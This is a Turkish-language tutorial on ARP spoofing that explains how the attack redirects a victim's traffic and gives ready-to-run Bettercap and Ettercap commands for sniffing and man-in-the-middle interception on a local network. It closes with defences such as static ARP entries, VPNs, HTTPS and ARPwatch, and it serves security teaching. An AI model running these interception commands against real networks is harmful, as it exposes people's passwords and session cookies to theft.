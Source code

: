 ### 📌 Özetle:
- Ağda sahte ARP mesajları göndererek kurbanın trafiğini kendi cihazına yönlendirir.
- Şifreler, oturum çerezleri ve hassas veriler ele geçirilebilir.
- Ağdaki diğer cihazlar yanıltılarak saldırgan üzerinden iletişim kurmaya zorlanır.

## 🔹 ARP Spoofing Nasıl Çalışır?
1. Ağdaki bir kurban (örneğin 192.168.1.10) ve yönlendirici (örneğin 192.168.1.1) belirlenir.

2. Saldırgan, sahte ARP paketleri göndererek "Ben yönlendiriciyim" veya "Ben kurbanım" diyerek kimliğini değiştirir.

3. Kurban, saldırganın MAC adresine veri göndermeye başlar.

4. Saldırgan, gelen verileri okuyabilir, değiştirebilir veya yönlendirebilir.

## 🔹 ARP Spoofing ile Trafik Ele Geçirme
**Linux & Kali'de Bettercap ile ARP Spoofing:**
```bash
sudo bettercap -iface eth0
```
Ardından Bettercap terminalinde şu komutları çalıştırın:
```bash
set arp.spoof.targets 192.168.1.10
arp.spoof on
net.sniff on
```
📌 Bu komutlar, hedef cihazın (192.168.1.10) trafiğini izlemeye başlar.

## 🔹 ARP Spoofing ile MITM Saldırısı
**Ettercap Kullanımı (Linux):**
```bash
sudo ettercap -T -M arp:remote /192.168.1.1/ /192.168.1.10/
```
📌 Bu saldırı, kurbanın tüm trafiğini saldırganın cihazına yönlendirir.

## 🔹 ARP Spoofing'e Karşı Alınabilecek Önlemler
✅ Statik ARP Tabloları Kullanma:
```bash
arp -s 192.168.1.1 00:11:22:33:44:55
```
✅ VPN Kullanarak Trafiği Şifreleme

✅ HTTPS Kullanımı ile SSL Trafiğini Güvenceye Alma

✅ Ağ İzleme Araçları (Wireshark, ARPwatch) ile Şüpheli Trafiği Tespit Etme

## 📌 Özet
✅ ARP Spoofing, ağdaki cihazları kandırarak trafiği ele geçirme saldırısıdır.

✅ Man-in-the-Middle (MITM) saldırılarında sıkça kullanılır.

✅ Ağ yöneticileri, ARP tablosunu koruyarak ve HTTPS/VPN kullanarak bu saldırıyı engelleyebilir.
